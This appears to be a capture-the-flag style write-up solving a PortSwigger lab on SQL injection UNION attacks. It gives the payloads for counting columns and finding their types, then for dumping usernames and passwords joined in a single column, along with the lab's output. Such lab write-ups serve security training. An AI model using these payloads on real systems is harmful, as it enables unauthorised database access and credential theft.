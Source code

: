 ## Lab: SQL Injection UNION Attack – Retrieving Multiple Values in a Single Column - [Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)


### Step-by-Step Process

#### 1. Capture the Request

* Access the lab
* Open Burp Suite → Proxy → Intercept → Capture the request


#### 2. Determine the Number of Columns

Inject:

```
' ORDER BY 1--         (OK)  
' ORDER BY 2--         (OK)  
' ORDER BY 3--         (Error)
```

Conclusion: The query returns **2 columns**.


#### 3. Determine Column Data Types

Test:

```
' UNION SELECT NULL,NULL--            (OK)  
' UNION SELECT 'a',NULL--             (Error)  
' UNION SELECT NULL,'a'--             (OK)
```

Conclusion:

* Column 1: Integer
* Column 2: String (textual data)


#### 4. Retrieve Data Individually

Inject:

```
' UNION SELECT NULL,username FROM users--      → administrator  
' UNION SELECT NULL,password FROM users--      → 6u3occwm4l1stwy79smj
```

or

#### 5. Retrieve Multiple Values in a Single Column

Inject:

```
' UNION SELECT NULL,username || ',' || password FROM users--
```

Output:

```
administrator,6u3occwm4l1stwy79smj
```


#### 6. Log in

* Go to "My Account"
* Use the retrieved credentials

**Lab Solved**

